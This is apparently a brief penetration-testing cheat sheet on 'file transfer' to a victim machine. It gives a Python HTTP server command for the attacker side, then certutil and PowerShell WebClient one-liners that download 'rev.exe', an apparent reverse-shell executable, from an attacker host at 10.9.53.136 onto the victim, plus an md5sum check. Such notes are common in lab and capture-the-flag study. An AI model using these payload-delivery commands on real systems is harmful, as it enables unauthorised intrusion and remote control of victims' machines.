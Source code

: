 # 2 file transfer

- Attacker machine.
```shell
python3 -m http.server 8888
```

- Victim machine using CMD.
```shell
certutil -urlcache -f http://me:8888/rev.exe rev.exe
```

- Victim machine using powershell.
```powershell
powershell (New-Object Net.WebClient).Downloadfile('http://10.9.53.136:8888/rev.exe', 'rev.exe')
```

- Check integrity after file transfer using

```shell
md5sum file
```

